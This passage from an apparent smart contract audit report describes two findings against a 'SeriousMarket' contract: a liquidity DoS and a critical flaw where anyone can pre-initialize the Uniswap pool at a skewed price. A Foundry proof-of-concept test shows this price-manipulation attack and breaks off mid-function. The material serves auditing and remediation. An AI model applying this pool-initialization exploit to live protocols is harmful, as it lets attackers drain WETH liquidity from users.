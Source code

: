 Run the test :

```shell
forge test --match-test testAddLiquidityTwice -vvv
```

While this is not a profitable attack, it will cause other tokens' funding to be DoSed and may lead to protocol insolvency due to the lack of ETH liquidity to cover the pool and liquidity creation.

## Recommendations

Add an additional check inside `createPoolAndAddLiquidity`. if `tradingEnabled` is false, revert the operation.

# [C-02] Uniswap's pool can be initialized with a different price

## Severity

**Impact:** High

**Likelihood:** High

## Description

`SeriousMarket.createPoolAndAddLiquidity` creates and initializes a Uniswap pool for the token-WETH pair only if the pool does not exist. Then liquidity is added to the pool at the current price.

In case the pool exists and the current price is different from the target initial price, not all the liquidity is added to the pool.

In case the price for the token is higher than the target price, fewer tokens will be added to the pool and the remaining tokens will be burned. In case the price is lower, fewer WETH will be added to the pool and the remaining WETH will be stuck in the contract.

A malicious user can create the pool with a very high price and after the liquidity is added, swap a small amount of tokens in exchange for most of the WETH in the pool.

## Proof of Concept

Test:

```solidity
function testCreatePoolOutsideMarket() public {
    vm.deal(ownerAddress, 10 ether);
    vm.deal(userAddress, 1 ether);
    uint256 userInitialBalance = userAddress.balance;
    uint256 userBuyAmount = 1;

    // User buys 1 token and owner buys the rest
    buy(userAddress, userBuyAmount);
    buy(ownerAddress, seriousMarket.tradeableSupply() - userBuyAmount);

    vm.startPrank(ownerAddress);

    // Create pool and initialize with very high price
    address pool = IUniswapV3Factory(uniswapFactoryAddress).createPool(wethAddress, tokenAddress, seriousMarket.poolFee());
    IUniswapV3Pool(pool).initialize(1e40);

    // Add liquidity from market
    seriousMarket.createPoolAndAddLiquidity(tokenAddress);

    // Swap 1 token for WETH
    ERC20(tokenAddress).approve(swapRouterAddress, userBuyAmount * 1e18);
```